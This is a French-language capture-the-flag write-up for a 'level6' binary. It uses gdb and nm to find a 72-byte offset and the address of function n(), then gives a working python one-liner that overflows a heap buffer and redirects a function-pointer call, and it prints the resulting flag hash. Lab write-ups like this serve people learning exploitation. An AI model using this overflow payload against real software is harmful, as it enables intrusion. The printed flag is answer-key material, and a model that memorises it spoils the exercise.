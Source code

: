 # уровень 6

- L'idée ici est de faire en sorte que la fonction n soit appeler par le programme. Grace à la variable f.

<pre>
$> gdb ./level6

(gdb) disass main
Dump of assembler code for function main:
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    0x18(%esp),%eax
   0x080484ce <+82>:    mov    (%eax),%eax
<strong>   0x080484d0 <+84>:    call   *%eax</strong>
   0x080484d2 <+86>:    leave 
   0x080484d3 <+87>:    ret
End of assembler dump.
</pre>

- Nous placons un breakpoint sur le call de f pour faire des tests et trouver les bon offset.

<pre>
(gdb) b *0x080484d0
Breakpoint 1 at 0x80484d0
(gdb) r $(python -c "print('A' * 72 + 'BBBB')")

Starting program: /home/user/level6/level6 $(python -c "print('A' * 72 + 'BBBB')")

Breakpoint 1, 0x080484d0 in main ()
<strong>(gdb) x/s $eax
0x42424242:      Address 0x42424242 out of bounds
</strong>
</pre>

- Bingo nous arrivons bien à ecrire sur la memoire. Il ne nous reste plus qu'à placer l'adresse de la fonction n().

<pre>
$> nm level6

...
08048468 T m
0804847c T main
         U malloc@@GLIBC_2.0
<strong>08048454 T n</strong>
...
</pre>

- Ce qui nous donnes en little indian: 54 84 04 08

<pre>
$> ./level6 $(python -c "print('A' * 72 + '\x54\x84\x04\x08')")

f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d

</pre>
